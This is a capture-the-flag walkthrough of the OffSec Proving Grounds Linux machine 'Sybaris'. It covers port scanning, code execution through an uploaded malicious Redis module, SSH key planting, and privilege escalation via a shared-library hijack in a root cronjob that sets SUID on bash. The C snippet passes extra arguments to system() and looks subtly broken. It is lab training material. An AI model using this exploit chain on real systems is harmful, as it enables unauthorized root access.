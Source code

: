 # Sybaris

## Info

Sybaris is an intermediate linux machine from offsec proving grounds.

## Nmap

All tcp port scan.

```
21/tcp    open   ftp       syn-ack ttl 61 vsftpd 3.0.2
22/tcp    open   ssh       syn-ack ttl 61 OpenSSH 7.4 (protocol 2.0)
80/tcp    open   http      syn-ack ttl 61 Apache httpd 2.4.6 ((CentOS) PHP/7.3.22)
6379/tcp  open   redis     syn-ack ttl 61 Redis key-value store 5.0.9
```

## User

Redis 5.x.x is vulnerable to a module upload attack.

Follow instructions to compile the module.

```
https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
```

Upload to pub directory in ftp.

```
ftp <ip>
cd pub
put module.so
```

Load module and execute code with redis-cli.

```
redis-cli -h <ip>
MODULE LOAD /var/ftp/pub/module.so
system.exec "id"
```

I created a .ssh directory in pablo home directory and uploaded a authorized_keys file with a public rsa key.

## Root

There is a cronjob running in /etc/crontab.

```
*  *  *  *  * root       /usr/bin/log-sweeper
```

I notice the following env var in the cron job which has a writable directory.

```
LD_LIBRARY_PATH=/usr/lib:/usr/lib64:/usr/local/lib/dev:/usr/local/lib/utils
```

When I run log-sweeper, there was an error for a missing shared lib.

```
utils.so
```

After adding a shared lib, it was looking for the following symbol.

```
print_yellow
```

Popping sh did not work, so I had to change suid of bash.

utils.c

```
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void print_yellow(){
    setuid(0);
    setgid(0);
    system("/usr/bin/chmod +s /bin/bash",NULL,NULL);
}
```

Transfer to the machine and compile.

```
gcc --shared -fPIC -o utils.so utils.c
```

Copy to writable directory in crontab.

```
cp utils.so /usr/local/lib/dev/utils.so
```

Wait a minute and execute bash.

```
/bin/bash -p
```
